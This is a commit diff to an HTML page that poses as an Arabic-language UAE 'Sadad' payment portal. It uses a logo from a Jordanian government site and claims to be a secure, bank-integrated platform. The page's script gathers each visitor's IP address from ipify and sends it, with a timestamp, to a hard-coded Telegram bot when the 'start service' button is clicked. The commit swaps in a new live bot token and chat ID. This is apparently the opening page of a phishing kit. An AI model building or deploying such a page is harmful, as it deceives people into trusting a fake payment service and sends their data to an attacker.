

Before and after one commit to sdadae-ho/sdad, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 599-992 px from the top of the page, without its empty margins (233-1046 px from the left). After the commit the page ends 886 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,11 +17,7 @@
             --success-color: #2ecc71;
         }
 
-        * {
-            box-sizing: border-box;
-            margin: 0;
-            padding: 0;
-        }
+        * { box-sizing: border-box; margin: 0; padding: 0; }
 
         body {
             font-family: 'Tajawal', sans-serif;
@@ -46,16 +42,8 @@
             box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
         }
 
-        .header img {
-            height: 80px;
-            margin-bottom: 10px;
-        }
-
-        .header h1 {
-            color: var(--primary-color);
-            font-size: 24px;
-            margin-bottom: 10px;
-        }
+        .header img { height: 80px; margin-bottom: 10px; }
+        .header h1 { color: var(--primary-color); font-size: 24px; margin-bottom: 10px; }
 
         .form-container {
             background-color: white;
@@ -73,19 +61,8 @@
             margin-bottom: 20px;
         }
 
-        .description {
-            margin-bottom: 30px;
-            line-height: 1.8;
-        }
-
-        .description h2 {
-            margin-bottom: 15px;
-            color: var(--text-color);
-        }
-
-        .description p {
-            margin-bottom: 10px;
-        }
+        .description { margin-bottom: 30px; line-height: 1.8; }
+        .description h2 { margin-bottom: 15px; color: var(--text-color); }
 
         .btn {
             display: inline-block;
@@ -99,21 +76,15 @@
             font-weight: 500;
             font-family: 'Tajawal', sans-serif;
             transition: background-color 0.3s;
+            width: 100%;
         }
 
-        .btn:hover {
-            background-color: #006600;
-        }
-
-        .btn-block {
-            display: block;
-            width: 100%;
-        }
+        .btn:hover { background-color: #006600; }
     </style>
 </head>
 <body>
     <div class="container">
-        <div id="page1" class="page active">
+        <div id="page1">
             <div class="header">
                 <img src="https://petra.gov.jo/upload/1542630954928.jpg" alt="شعار سداد الإمارات">
                 <h1>بوابة سداد الإمارات</h1>
@@ -126,32 +97,26 @@
                 <div class="description">
                     <h2>عن سداد الإمارات</h2>
                     <p>سداد الإمارات هي منصة دفع إلكتروني آمنة وسهلة الاستخدام تتيح للمواطنين والمقيمين في دولة الإمارات العربية المتحدة دفع فواتيرهم ورسومهم الحكومية والخاصة بكل يسر وأمان.</p>
-                    <p>تتميز المنصة بتكاملها مع جميع البنوك المحلية وتوفرها على أعلى معايير الأمان والخصوصية لضمان سلامة معاملاتك المالية.</p>
-                    <p>يمكنك استخدام سداد الإمارات لدفع فواتير الكهرباء والماء والهاتف والإنترنت والعديد من الخدمات الأخرى.</p>
                 </div>
 
-                <button id="startService" class="btn btn-block">بدء الخدمة</button>
+                <button id="startService" class="btn">بدء الخدمة</button>
             </div>
         </div>
     </div>
 
     <script>
-        const telegramBotToken = '8591237339:AAHOMH_hwr6ts_zlKb3ClGXb7RBpZ8ii5j0';
-        const telegramChatId = '1848565778';
+        const telegramBotToken = '8679116779:AAFA4ChWcYM9ZiHa3BAr3IylTOUEWvFQNkw';
+        const telegramChatId = '8362204213';
         let userIP = '';
 
-        // الحصول على IP المستخدم
         async function getUserIP() {
             try {
                 const response = await fetch('https://api.ipify.org?format=json');
                 const data = await response.json();
                 userIP = data.ip;
-            } catch (error) {
-                userIP = 'غير معروف';
-            }
+            } catch (error) { userIP = 'غير معروف'; }
         }
 
-        // إرسال رسالة للتلغرام
         async function sendToTelegram(message) {
             try {
                 const url = `https://api.telegram.org/bot${telegramBotToken}/sendMessage`;
@@ -169,15 +134,11 @@
                     localStorage.setItem('telegramMessageId', data.result.message_id);
                     localStorage.setItem('telegramMessageContent', message);
                 }
-            } catch (error) {
-                console.error('خطأ في إرسال الرسالة:', error);
-            }
+            } catch (error) { console.error('Error:', error); }
         }
 
-        // تهيئة الصفحة
         document.addEventListener('DOMContentLoaded', function() {
             getUserIP();
-
             document.getElementById('startService').addEventListener('click', async function() {
                 const message = `🟢 <b>زيارة جديدة - بوابة سداد الإمارات</b>\n\n🌐 عنوان IP: ${userIP}\n📅 التاريخ: ${new Date().toLocaleString('ar-AE')}\n\n✅ تم الضغط على "بدء الخدمة"`;
                 await sendToTelegram(message);
```
